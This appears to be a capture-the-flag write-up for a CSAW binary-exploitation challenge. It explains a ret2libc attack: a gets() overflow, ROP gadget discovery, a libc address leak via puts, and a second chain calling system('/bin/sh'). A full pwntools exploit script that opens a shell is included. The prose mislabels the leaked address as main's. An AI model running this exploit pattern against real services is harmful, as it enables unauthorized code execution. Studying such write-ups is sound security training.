## The Beginning
This is a classic ret2lib binary exploitation problem. Source code is not given so we need to use Cutter to see the code.

The ```main``` looks like this:       

```
undefined8 main(void)
{
    char *s;
    
    init();
    puts("Hello");
    gets(&s);
    return 0;
    }
```

## Get gadgets
Use ```ROPgadget --binary rop | grep "ret"``` to get ```ret``` address ```0x40048e```        

## Or automatically get them through pwn
Like this:
```
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
## Find plt address for 
```
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

```

## Create 1st rop 
The first rop is used to leak libc base address.

```
rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)

```

After sending in the rop through ``` p.sendline(rop)```, we will receive an address back. This is the leaked ```main``` address.

We used ```bytes_to_long(received[-2: :-1])``` to process the address and put it into ```leaked```.
Then use this leaked to construct second rop!

## Construct second rop
We can get libc base address through ``` leaked - libc.sym["__libc_start_main"] ``` and assign it to ```libc.address```. 
```libc = ELF("libc-2.27.so") which is given. This libc is machine dependent. You can find out which libc you are using by ```ldd rop```, and set libc accordingly. 

The second rop is like this:
```
rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])

```

## Original Script

```
from pwn import *
from Crypto.Util.number import *

#p = remote('pwn.chal.csaw.io', 5016)
p = process("rop")
libc = ELF("libc.so.6")

elf = ELF("rop")
rop = ROP(elf)

base = b"A"*40
ret = 0x40048e
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

log.info("rdi:"+hex(poprdi))
log.info("_libc_start:"+hex(_libc_start_main_ptr))
log.info("puts:"+hex(puts))

rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)
log.info("Sending 1st payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

recieved = p.recvline()
leaked = bytes_to_long(recieved[-2: : -1])

log.info("address of leaked:"+hex(leaked))

libc.address = leaked - libc.sym["__libc_start_main"]
log.info("address of libc:" + hex(libc.address))

rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])
log.info("Sending real payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

p.interactive()
```
